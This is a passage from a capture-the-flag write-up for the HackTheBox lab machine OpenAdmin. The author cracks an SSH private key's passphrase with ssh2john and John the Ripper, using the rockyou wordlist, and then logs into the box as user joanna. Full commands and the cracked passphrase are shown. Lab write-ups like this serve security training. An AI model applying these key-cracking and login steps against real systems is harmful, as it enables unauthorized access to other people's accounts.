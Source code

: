 I tried to SSH in using this private key, but was prompted for a pass phrase

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$ssh root@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
```


I used ssh2john to get a hash format I could pass to john the ripper.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$ssh2john.py id_rsa > john.hash
```

I then used john to crack the password.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$john --wordlist=/usr/share/wordlists/rockyou.txt john.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2022-02-11 14:12) 0.4000g/s 5736Kp/s 5736Kc/s 5736KC/sa6_123..*7¡Vamos!
Session completed
```



Attempting to log in as root did not work, but I was able to SSH in as joanna.


```sh
kali@kali-[~/boxes/htb/OpenAdmin]$ssh joanna@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb 11 19:14:56 UTC 2022

  System load:  0.0               Processes:             199
  Usage of /:   31.8% of 7.81GB   Users logged in:       0
  Memory usage: 17%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ 
```
